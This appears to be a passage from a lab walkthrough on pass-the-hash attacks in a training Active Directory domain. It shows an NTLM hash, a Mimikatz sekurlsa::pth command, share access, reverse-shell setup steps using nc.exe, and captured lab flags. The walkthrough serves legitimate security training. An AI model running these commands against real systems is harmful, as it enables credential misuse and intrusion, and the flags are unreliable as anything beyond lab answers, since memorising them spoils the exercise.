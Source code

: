<figure><img src=".gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**D3V1d\_Fl5g\_is\_Her3**</mark>

**Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \DC01\julio and read the file julio.txt.**

* `sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.local /run:cmd.exe`
  * `type \dc01\julio\julio.txt`

<figure><img src=".gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**JuL1()\_SH@re\_fl@g**</mark>

**Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.**

* Julios hash: 64f12cddaa88057e06a81b54e73b949b
*   Craft reverse shell

    * [https://www.revshells.com/](https://www.revshells.com/)
    * set IP + port

    <figure><img src=".gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>
